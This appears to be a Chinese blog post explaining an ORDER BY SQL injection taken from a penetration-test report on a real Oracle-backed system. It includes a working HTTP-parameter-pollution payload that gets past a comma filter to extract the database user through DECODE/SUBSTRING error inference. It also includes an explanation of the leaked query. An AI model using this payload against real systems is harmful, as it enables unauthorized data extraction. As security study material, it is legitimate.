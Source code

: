 最近看到一个大佬的渗透报告，里面有一个排序注入的利用。太久没有手工注入SQL了，一时间看得有点懵，花了点时间研究了一下，并记录成这篇博客。由于设计到真实生产系统，截图就不多给了，直接口头表述。如果有不清楚的，还请见谅。



存在SQL注入的接口存在一个sortField参数，传入值为0，会报错，响应包回显SQL查询语句

```sql
SELECT * FROM (
	SELECT TMP_PAGE.*,ROWNUM ROW_ID FROM (
		SELECT * FROM (
			SELECT a.id as "id",a.xxx as "xxx",……(反正有很多列) FROM
			FROM wl a
			LEFT JOIN t_user u 
			ON u.id=a.sszh WHERE jgzt="1" and (
				YXQX="-1" or time > ADD_MONTHS(sysdate,0-YXQX*12)
			)
			ORDER BY 0
			))
			TMP_PAGE)
WHERE ROW_ID <= ? AND ROW_ID >?

```

该sortField参数会传到ORDER BY语句到后面，即ORDER BY {sortField}

此时记录一下ORDER BY 0 的响应包，稍后进行进一步注入的时候会用到



因为看不到这个查询语句在干啥？我把它丢进了GPT分析，分析结果如下：



这个查询语句是一个复杂的Oracle SQL语句，主要用于从数据库中检索特定条件下的分页数据。让我详细解释一下：

1. 最内层子查询 (Innermost Subquery):
   - 这个查询从`wl`表中选择了一系列列。
   - 使用了`LEFT JOIN`将该表与`t_user`表关联，连接条件是`u.id = a.sszh`。
   - WHERE子句包括条件`jgzt="1"`，表示选取状态为"1"的记录。
   - 还有一个复杂的条件，`(YXQX="-1" or time > ADD_MONTHS(sysdate, 0 - YXQX * 12))`，这是一个日期比较，根据条件选取符合要求的记录。
2. 第二层子查询 (Second Subquery):
   - 这个查询对最内层的结果进行排序，`ORDER BY 17`表示按照第17列排序。
3. 最外层子查询 (Outermost Subquery):
   - 使用`ROWNUM`给每一行结果分配一个行号，并将这个行号作为`ROW_ID`的别名。
   - 然后通过外部的`SELECT`语句，筛选出`ROW_ID`在指定范围内的记录，实现分页效果。



关于order by 注入，更多的可能关注这篇文章[[ORDER BY 注入](https://blog.csdn.net/li20132273/article/details/127714511)](https://blog.csdn.net/li20132273/article/details/127714511),这里就不多讲原理了。

因为是渗透测试报告，我没有机会手动进行测试，只能通过口头了解知道该系统对逗号进行了过滤。

针对该过滤，大佬使用了参数污染，基本原理如下：

```
若参数名一致，服务器可能有几种处理情况：
1. 将其拼接在一起
2. 第二个参数值覆盖第一个参数值
```

针对该原理使用payload 为：

```sql
sortField=decode(substring(user&sortField=1&sortField=1)&sortField=chr(103)&sortField=(1/0)&sortField=0)
```



首先先解释一下各类函数的作用：

- substring   截取字符串，第一个参数为字符串，第二个为start值，第三个为length值
- decode  通常用于在查询中进行条件性的值转换，通常格式为

```sql
DECODE(expression, search1, result1, search2, result2, ..., default_result)
```

其中 `expression` 是需要比较的值，`search1`, `search2`, ... 是要匹配的条件，`result1`, `result2`, ... 是匹配到相应条件时返回的结果，`default_result` 是当没有条件匹配时返回的默认结果。



而 `&`则是使用同参数名来给函数传参，最后服务器处理的结果会是：（返回包里也有）

```sql
ORDER BY 
DECODE(
	SUBSTRING（
  	user,1,1
  ),chr(103),1/0,0
)
```